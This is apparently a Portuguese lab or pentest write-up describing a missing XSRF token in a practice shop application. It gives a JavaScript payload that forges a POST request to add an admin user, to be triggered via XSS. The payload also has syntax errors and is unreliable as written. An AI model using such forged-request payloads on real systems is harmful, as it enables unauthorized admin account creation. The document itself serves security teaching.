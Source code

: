 XSRF
========================

Contexto.

A aplicação não implementa um token XSRF, por exemplo, tornando possível uma requisição forçada sem seguir a lógica da aplicação. Sendo assim, explorando uma fragilidade de XSS, por exemplo, é possível utilizar de um script malicioso para inserção de um usuário conforme exemplo abaixo. Esse script deve estar hospedado em um host alcançavel para disparar a requisição por meio de um javascript:


Exemplo de request maliciosa para explorar XSRF

```
var url = http://pwnownshop.site/add_user.php
var params = "name=Malice&surname=Sith&email=malice.smith&role=admin&submmit="

var CSRF = new XMLHttpRequest();
CSRF.open("POST, url, true);
CSRF.withCredentials = 'true';
CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

CSRF.send(params);

```
